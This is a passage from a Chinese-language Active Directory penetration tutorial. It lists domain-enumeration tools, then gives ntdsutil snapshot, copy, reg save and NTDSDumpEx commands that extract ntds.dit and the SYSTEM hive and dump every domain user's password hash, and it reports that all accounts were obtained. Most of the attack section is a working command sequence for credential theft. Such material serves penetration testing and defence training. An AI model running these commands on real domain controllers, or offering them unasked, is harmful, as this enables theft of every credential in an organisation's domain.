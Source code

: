 工具名称：（这些Exe的名字，也都是api的名字）

NetGroupGetUsers.exe：查询域里的各个组里的成员，IP必须是域控IP，域用户随意。

NetLocalGroupGetMembers.exe:查询目标服务器本地管理组的成员。

NetUserEnum.exe:查询目标服务器所有用户，包括隐藏用户。

![image](25.png)

#### 9、导出域hash

Windows的密码是经过hash后存储的，本地存在hklm\sam，hklm\system注册表中

域里面存在域控制器的c:\windows\ntds\ntds.dit中，我们取出来解密即可

ntds.dit其实就是个esent数据库，微软本身就有一系列的文档化api能够操作这个数据库

`https://msdn.microsoft.com/en-us/library/windows/desktop/gg294074.aspx`

```
// 第一步：创建快照 获取｛｝中的ID,必须在域控服务器上操作
ntdsutil snapshot "activate instance ntds" create quit quit

// 第二步：挂载快照
ntdsutil snapshot "mount {8a8db83f-dad7-b61d-ef272a3a483f}" quit quit

// 第三步：复制ntds.dit
copy C:\$SNAP_201910121047_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit

// 第四步：卸载快照
ntdsutil snapshot "unmount {8a8db83f-dad7-b61d-ef272a3a483f}" quit quit

// 第五步：删除快哉
ntdsutil snapshot "delete {8a8db83f-dad7-b61d-ef272a3a483f}" quit quit

// 第六步：获取key
reg save HKLM\SYSTEM c:\windows\temp\Sys.hiv

// 第七步：使用NTDSDumpEx获取所有域用户的Hash
NTDSDumpEx.exe -d ntds.dit -o hash.txt -s Sys.hiv -h
```

![image](26.png)

最后成功获取当前域控中所有域账户和密码

![image](27.png)


## 0x04 参考资料

[漏洞银行丨内网渗透之初识域渗透-ske丨咖面105期](https://www.bilibili.com/video/BV19J411R7aS)